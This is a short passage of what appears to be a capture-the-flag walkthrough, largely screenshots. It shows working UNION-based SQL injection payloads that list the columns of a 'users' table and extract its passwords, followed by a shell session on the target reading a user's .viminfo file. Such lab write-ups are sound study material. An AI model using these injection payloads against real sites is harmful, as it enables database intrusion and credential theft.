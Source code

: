 ![image](https://github.com/user-attachments/assets/46ca00f2-7542-48f6-9919-296ee6db8379)

<p>We can notice that there are <code>two tables</code>: <code>items</code> and <code>users</code></p>

<br>

<pre><code>?id=5 union select 1,group_concat(column_name),3,4,5 from information_schema.columns where table_schema = database() and table_name = "users"</code></pre>

<br>

![image](https://github.com/user-attachments/assets/4b3ca1be-e473-411d-8189-c2ea2d22111c)

<br>

<pre><code>?id=5%20union%20select%201,password,3,4,5%20from%20users</code></pre>

<br>

![image](https://github.com/user-attachments/assets/669a0148-a62f-48b6-a26d-84550fdcba17)

<br>
<br>
<br>


<br>

![image](https://github.com/user-attachments/assets/e7667ec7-a0c5-46c4-9856-dd9f70352bd4)

<br>


![image](https://github.com/user-attachments/assets/82dd10a7-e756-45a5-ac9f-342fadde1b3e)

<br>

![image](https://github.com/user-attachments/assets/a00f90b9-e7d3-46ca-b5b7-62db9bb18fc0)

<br>

<pre><code>dennis@[Target]:~$ cat .viminfo
# This viminfo file was generated by Vim 7.4.
# You may edit it if you're careful!

# Value of 'encoding' when this file was written
*encoding=utf-8


# hlsearch on (H) or off (h):
~h
# Last Search Pattern:
~MSle0~/root
